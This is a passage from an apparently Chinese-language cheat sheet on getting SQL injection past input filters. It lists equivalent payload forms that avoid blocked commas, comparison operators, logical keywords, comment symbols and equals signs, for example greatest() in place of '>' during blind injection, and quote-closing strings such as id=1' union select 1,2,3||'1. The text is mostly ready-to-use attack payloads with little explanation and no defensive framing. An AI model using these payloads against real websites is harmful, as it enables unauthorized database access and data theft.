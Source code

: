 　　使用join：

union select 1,2     #等价于
union select * from (select 1)a join (select 2)b

　　使用like：

select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'

　　对于`limit`可以使用`offset`来绕过：

select * from news limit 0,1
**等价于下面这条SQL语句**
select * from news limit 1 offset 0

## 5.比较符号（<>）绕过（过滤了<>：sqlmap盲注经常使用<>，使用between的脚本）：

### 使用greatest()、least（）：（前者返回最大值，后者返回最小值）

　　同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到`greatest`来进行绕过了。  
　　最常见的一个盲注的sql语句：

select * from users where id=1 and ascii(substr(database(),0,1))>64

　　此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用`greatest`来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数(n1,n2,n3,...)的最大值。  
　　那么上面的这条sql语句可以使用`greatest`变为如下的子句:

select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64

### 使用between and：  

   between a and b：

between 1 and 1; 等价于 =1

## 6.or and xor not绕过：

and=&&  or=||   xor=|   not=!

## 7.绕过注释符号（#，--(后面跟一个空格））过滤：

id=1' union select 1,2,3||'1

　　最后的or '1闭合查询语句的最后的单引号，或者：

id=1' union select 1,2,'3

## 8.=绕过：

　　使用like 、rlike 、regexp 或者 使用< 或者 >

## 9.绕过union，select，where等：
